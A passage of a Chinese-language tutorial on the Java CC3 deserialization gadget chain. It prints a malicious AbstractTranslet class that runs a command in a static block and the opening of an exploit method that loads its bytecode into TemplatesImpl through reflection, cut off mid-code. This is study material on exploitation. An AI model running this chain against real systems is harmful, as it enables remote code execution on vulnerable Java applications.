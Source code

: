 这里有两个解决思路，一个是给 _auxClasses 赋值，另外一个是使得表达式 superClass.getName().equals(ABSTRACT_TRANSLET 成立。

注意到下面对 _transletIndex 进行了判断，如果小于零，也会抛出 TransformerConfigurationException 异常。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640076504953-c64fcccb-5f7a-44ca-88d3-015de88e1760.png)

因此，我们需要满足表达式 superClass.getName().equals(ABSTRACT_TRANSLET 成立，进而 _transletIndex 赋值为 0 ，才可以在下面这里不抛出。

ABSTRACT_TRANSLET 的值为 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet，所以我们编写的恶意类需要继承自这一个类。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640077217556-0b003fef-9f10-48ac-b80a-9ad0cb0a5c48.png)

修改 Calc.java，注意需要实现两个 transform 方法。

```java
import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Calc2 extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

再次运行时可以正常弹出计算器。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640077344524-73952bce-0e60-44ea-a94f-2c095660a157.png)

结合之前的 CC1 编写 exp：

```java
    public static void TestCC3() throws Exception {
        Path path = Paths.get("C:\\tmp\\Calc2.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,bytes1);

        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");

        Field classField = TemplatesImpl.class.getDeclaredField("_class");
```